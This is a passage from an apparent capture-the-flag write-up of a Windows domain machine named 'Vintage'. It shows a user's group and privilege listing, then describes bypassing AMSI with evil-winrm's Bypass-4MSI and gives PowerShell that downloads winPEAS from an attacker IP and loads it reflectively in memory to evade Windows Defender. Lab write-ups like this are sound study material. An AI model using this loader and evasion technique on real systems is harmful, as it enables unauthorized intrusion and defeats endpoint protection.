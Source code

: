```powershell
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
VINTAGE\ServiceManagers                     Group            S-1-5-21-4024337825-2033394866-2055507597-1137 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Unfortunately, this user doesn't have any elevated privileges or belong to any interesting groups.

<p align="center">
  <img src="/machines/vintage/windef.png" alt="window defender" />
</p>

One thing I noticed is that the Windows Defender is enabled, so we can't just blatanlty run malicious programs.
To partially bypass Windows Defender, we need to bypass the ASMI. We could use `Bypass-4MSI` command from `evil-winrm` to bypass the ASMI.
After that, we could run `winPEASany_ofs.exe` by not touching the disk because AMSI works on the memory level and by using `Bypass-4MSI` command, we should be able to bypass the AMSI on .NET level.

```powershell
Bypass-4MSI
$data=(New-Object System.Net.WebClient).DownloadData('http://10.10.14.154:8000/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
